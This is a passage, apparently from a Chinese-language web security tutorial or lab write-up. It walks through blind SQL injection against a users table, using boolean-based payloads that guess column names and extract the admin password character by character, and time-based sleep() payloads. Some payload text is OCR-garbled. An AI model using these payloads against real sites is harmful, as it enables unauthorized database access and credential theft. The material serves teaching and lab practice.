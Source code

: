 
说明users表有8个字段。


接着挨个猜解字段名：


```text
1’ and length(substr((select column_name from information__schema.columns where tablename= ’users’ limit 0,1),1))=1 # 显示不存在

…

1’ and length(substr((select column__name from information__schema.columns where tablename= ’users’ limit 0,1),1))=7 # 显示存在_

```


说明users表的第一个字段为7个字符长度。


采用二分法，即可猜解出所有字段名。

1. 猜解用户名密码

同样采用二分法。


用户 admin 存在吗？


```text
_1' and (select count() from users where user = 'admin') = 1 #_

```


admin 密码的第一位在 a~m 之间吗？


```text
1' and ascii(substr((select password from users where user = 'admin' limit 1),1,1)) >= 97 and ascii(substr((select password from users where user = 'admin' limit 1),1,1)) <= 109 #

```


...


后续过程略。


还可以使用**基于时间的盲注**：

1. 判断是否存在注入，注入是字符型还是数字型

```text
输入1’ and sleep(5) #，感觉到明显延迟；

输入1 and sleep(5) #，没有延迟；

```
